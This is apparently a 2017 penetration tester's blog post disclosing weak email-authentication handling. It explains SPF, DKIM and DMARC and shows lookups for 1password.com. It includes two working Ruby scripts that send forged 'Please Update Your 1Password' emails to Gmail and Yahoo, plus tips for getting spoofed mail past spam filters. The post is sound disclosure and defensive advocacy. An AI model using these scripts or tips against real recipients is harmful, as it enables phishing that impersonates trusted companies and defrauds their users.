








Posted 1 Jul 2017 by Vitaly Salnikov Tweet
Phishing has become an important security issue and is probably here to stay in one form or another. The media speaks of computer hacking almost every day, and it continues to amaze me the way that phishing is presented as if it were a sophisticated kind of attack. Certainly, there are subtleties, but in general setting up a phishing attack is quite simple, it just calls for some experience. Our experience of penetration tests shows that phishing is very effective, and we almost always manage to penetrate successfully the internal network of our customers. The situation is not a reassuring one: the major Mail Services, such as Gmail or Yahoo, are almost entirely concerned with the deliverability of emails and fighting SPAM, and don't bother with easy things which could protect their customers from such things as successful phishing attacks. On the other hand, many large companies, including, remarkably, financial institutions, are often not good at setting up their own SPF, DKIM and DMARC policies.
Everyone knows that SMTP (Simple Mail Transfer Protocol) is an old transfer protocol designed for a federated messaging system, and it has the typical shortcomings of such kinds of protocols. To protect users from successful phishing attacks and SPAM, there appeared the additional mechanisms SPF and DKIM, together with DMARC, which defines the local policy for the processing of the outputs from the SPF and DKIM checks. The responsibility for checking SPF and DKIM, and DMARC if necessary, falls to the receiving email server. The receiving server is free to carry out the necessary checks or not: it may perform these checks, or it may also not do so; it may report detected problems to the user, or it may not. In this article I will present the typical state of security, against well-known attacks like Email Spoofing, implemented at the time of writing.
Suppose that Petr (petr@hackanddefense.com) sends an email to Masha (masha@hackndef.com). Petr uses Mail User Agent (MUA). By clicking “Send”, Peter initiates the sequence of actions:
Now Masha can retrieve Peter’s email from her Mail Server (hackndef.com) via IMAP or POP3 protocols.
To find Masha’s MTA server the sending MTA server queries the Domain Name System (DNS) for Mail Exchanger (MX) records of the recipient's domain name. A MX record is a type of resource record that specifies a mail server responsible for accepting email messages on behalf of a recipient's domain. Herein lies the main problem: anyone can connect to the recipient's MX server and impersonate Petr and send an email to Masha signing themselves as Petr, and when Masha gets the letter she will think that it came from Petr, although in reality the email was sent by someone else. SPF, DKIM and DMARC help Masha to make sure that the sender of her received email message was really Peter.
According to RFC 7208, SPF - standing for Sender Policy Framework - defines a protocol by which ADMDs (ADministrative Management Domain) can authorize hosts to use their domain names in the "MAIL FROM" or "HELO" identities. Compliant ADMDs publish Sender Policy Framework records in the DNS specifying which hosts are permitted to use their names, and compliant mail receivers use the published SPF records to test the authorization of sending Mail Transfer Agents (MTAs) using a given "HELO" or "MAIL FROM" identity during a mail transaction. An additional benefit to mail receivers is that after the use of an identity is verified, local policy decisions about the mail can be made based on the sender's domain, rather than the host's IP address.
According to RFC 6376, DKIM - for DomainKeys Identified Mail - permits a person, role, or organization that owns the signing domain to claim some responsibility for a message by associating the domain with the message. This can be an author's organization, an operational relay, or one of their agents. DKIM separates the question of the identity of the Signer of the message from the purported author of the message. Assertion of responsibility is validated through a cryptographic signature and by querying the Signer's domain directly to retrieve the appropriate public key. Message transit from author to recipient is through relays that typically make no substantive change to the message content and thus preserve the DKIM signature.
According to RFC 7489, DMARC - for Domain-based Message Authentication, Reporting and Conformance - is a scalable mechanism by which a mail-originating organization can express domain-level policies and preferences for message validation, disposition, and reporting, that a mail-receiving organization can use to improve mail handling. Originators of Internet Mail need to be able to associate reliable and authenticated domain identifiers with messages, communicate policies about messages that use those identifiers, and report about mail using those identifiers. These abilities have several benefits: Receivers can provide feedback to Domain Owners about the use of their domains; this feedback can provide valuable insight about the management of internal operations and the presence of external domain name abuse. DMARC does not produce or encourage elevated delivery privilege of authenticated email. DMARC is a mechanism for policy distribution that enables increasingly strict handling of messages that fail authentication checks, ranging from no action, through altered delivery, up to message rejection.
For historical and organizational reasons, it is difficult for many companies (and it can be too expensive) to maintain a balance between security and deliverability to the end user. However, it is possible for security to be greatly improved, and in many cases this can be done quickly and not very expensively. Below I will show some examples of successful Email Spoofing on behalf of large companies.
I began my research by studying the domain 1password.com, looking in the SPF record of which I saw the following:
$ nslookup -type=TXT 1password.com 8.8.8.8 Server: 8.8.8.8 Address: 8.8.8.8#53 Non-authoritative answer: 1password.com text = "status-page-domain-verification=l0fspqfdg9xc" 1password.com text = "google-site-verification=JbQUZn57A83N5dCXCrjx6rf-tJm6P8iyy_LN9tvTlVk" 1password.com text = "v=spf1 include:stspg-customer.com include:amazonses.com include:_spf.google.com include:spf.mtasv.net -all"
So, it looks ok for 1password.com.
But I have to say about other SPF policies which I saw for other domains. Sometimes there are SPF records uses SoftFail (i.e. "~") or Neutral (i.e. "?") qualifiers with "all" mechanism. In case of SoftFail, according to SPF, this means the following:
The SPF record has designated the host as NOT being allowed to send but is in transition, but intended action is ACCEPT BUT MARK.
It means that the email must be accepted but marked as suspicious. And in case of Neutral, according to SPF, this means the following:
The SPF record specifies explicitly that nothing can be said about validity.
If we look at the DMARC policy, it is indicated there that in case of a DMARC check fail the Domain Owner does not ask the Receiver to take action (p=none), the same is written in the policy for subdomains (sp=none). The following are the email addresses to which should be sent reports, the format used for reports, the percentage of letters to which the rules should be applied, and the reporting interval (https://dmarc.org/wiki/FAQ).
$ nslookup -type=TXT _dmarc.1password.com 8.8.8.8 Server: 8.8.8.8 Address: 8.8.8.8#53 Non-authoritative answer: _dmarc.1password.com text = "v=DMARC1; p=none; sp=none; rua=mailto:dmarc-reports@1password.com; ruf=mailto:dmarc-reports@1password.com; rf=afrf; pct=100; ri=86400"
I decided to check to see how Gmail and Yahoo! would react to fake emails sent from my server. It turned out to be quite simple to create an email so that it appeared in a receiving Inbox without being marked as suspicious. Thus the only means for the end user to detect that an email is fake is to manually look at the message headers and to understand that checks were not passed.
To send a forged email to Gmail from 1password.com the following simple script was written in ruby:
require 'net/smtp'
require 'securerandom'
RECIPIENT = "☕☕☕☕☕☕@gmail.com".freeze
MX_ADDRESS = "gmail-smtp-in.l.google.com".freeze
msg = <<END_OF_MESSAGE
From: 1Password <hello@1password.com>
To: #{RECIPIENT}
Subject: Please Update Your 1Password
MIME-version: 1.0
Content-Type: text/html; charset=UTF-8
Message-ID: <#{SecureRandom.uuid}@localhost>
Date: Sat, 18 Mar 2017 19:15:21 +0000
X-SES-Outgoing: 2017.03.18-54.240.57.48
Feedback-ID: 1.us-west-2.ADFfff123456A5345564KKKWE7111111111112adefQk=:AmazonSES
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta name="viewport" content="width=device-width" />
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
<title>Please Update Your 1Password</title>
</head>
<body>
....... ............ .......
....... content here .......
....... ............ .......
</body>
</html>
END_OF_MESSAGE
smtp = Net::SMTP.new(MX_ADDRESS)
smtp.set_debug_output($stderr)
smtp.enable_starttls
smtp.start do |smtp|
smtp.send_message msg, 'hello@1password.com',
RECIPIENT
end
In the Gmail mailbox
  The script below was written for sending emails to Yahoo!:
require 'net/smtp'
require 'securerandom'
RECIPIENT = "☕☕☕☕☕☕@yahoo.com".freeze
MX_ADDRESS = "mta6.am0.yahoodns.net".freeze
msg = <<END_OF_MESSAGE
From: 1Password <hello@1password.com>
To: #{RECIPIENT}
Subject: Please Update Your 1Password
MIME-version: 1.0
Content-Type: text/html; charset=UTF-8
Message-ID: <#{SecureRandom.hex(4)}-#{SecureRandom.hex(2)}-#{SecureRandom.hex(2)}-#{SecureRandom.hex(2)}-#{SecureRandom.hex(6)}@us-west-2.amazonses.com>
Date: Sat, 18 Mar 2017 19:15:21 +0000
X-SES-Outgoing: 2017.03.18-54.240.57.48
Feedback-ID: 1.us-west-2.ADFfff123456A5345564KKKWE7111111111112adefQk=:AmazonSES
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta name="viewport" content="width=device-width" />
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
<title>Please Update Your 1Password</title>
</head>
<body>
....... ............ .......
....... content here .......
....... ............ .......
</body>
</html>
END_OF_MESSAGE
smtp = Net::SMTP.new(MX_ADDRESS)
smtp.set_debug_output($stderr)
smtp.enable_starttls
smtp.start do |smtp|
smtp.send_message msg, 'hello@1password.com',
RECIPIENT
end
Let us note some important differences. In the case of Gmail the Message-ID of the email was the following:
Message-ID: <#{SecureRandom.uuid}@localhost>while in the case of Yahoo!:
Message-ID: <#{SecureRandom.hex(4)}-#{SecureRandom.hex(2)}-#{SecureRandom.hex(2)}-#{SecureRandom.hex(2)}-#{SecureRandom.hex(6)}@us-west-2.amazonses.com>Screenshots of successfully fake emails in Yahoo! Mailbox:
 For 1Password, we recommend you to make a more strict DMARC policy. Not all Mail Services check SPF, DKIM and DMARC, but the largest are able to do so. To improve the security for your users, it is recommended to configure all the above-listed policies.
For Gmail and Yahoo! if any of the checks fails, the Mail Service should notify the recipient that the email is probably a fake. Also, all recipients should be notified about the failure of any checks, even if there is no DMARC policy, or if it is too soft.
A Spam Filter is a very complicated mechanism and every Mail Service implements it differently. Sometimes, to improve the efficiency of the delivery of forged email to the addressee it is important to obtain a sample of legal email in order to be able to reproduce the headings and layout. The content of the email is also important: sometimes, when I create a fake email using the word "Download" and attach a link, Gmail marks the email as suspicious and notifies the recipient that Gmail is unable to verify if the message is fake or not. Email Services take into account the reputations of IP addresses of senders: for example, sometimes I was not able to send an email from a Moscow IP-address, but the same email works fine with a German VPS. One strategy for successful bypass of the Spam Filter, is to create multiple mailboxes into which to send the same fake email, and then, in the role of recipient, to mark each message as “non-spam” and “important”: the result can be that the Mail Service automatically registers the message as non-spam for all users. Another strategy to bypass the Spam Filter is to generate a random boundary string if the message contains [Content-Type: multipart/alternative;]. There are many ways to influence spam filters, and making a fake email that will not be detected is really simple.
Additionally, the problems are compounded by the fact that most email clients do not notify the user that a questionable email is probably fake.
Responses from Google, Yahoo! and 1Password was the following.
  The goal of this article has been to show how poorly protected are the clients of large companies, as well as the companies themselves, against phishing attacks; also, as highlighted in several examples, to show how inadequately Mail Services tend to inform users about fake messages. Taking a list of the 100 largest banks represented in the United States, and analyzing their security provisions, I found that 81% of them are subject, in one form or another, to the problems described in the previous sections. I have not conducted a detailed study of all domains of the banks on the list, and probably if this were done, the percentage of vulnerable banks would be over 90%. There are banks whose SPF protocol contains both “-all” and “~ all” in the same line; others whose DMARC policy settings contain rather those appropriate for SPF protocol; and banks with neither SPF nor DKIM, having DMARC but without any policy settings defined. I do not want to disclose the names of any specific banks, but it is an easy procedure to check my claims.
We may conclude that today, despite the huge amount of news and attention given over to the topic of information security, typical levels of protection against phishing remain low. Email users are advised to be careful when receiving emails and always to check the headers.
PS: If you want to check the safety of your domain, by testing whether it is possible to successfully send forged emails, send me a request to
UPD: thanks to the commenters on Reddit for point out an inaccuracy in the article, I've fixed it (4 Jul 2017).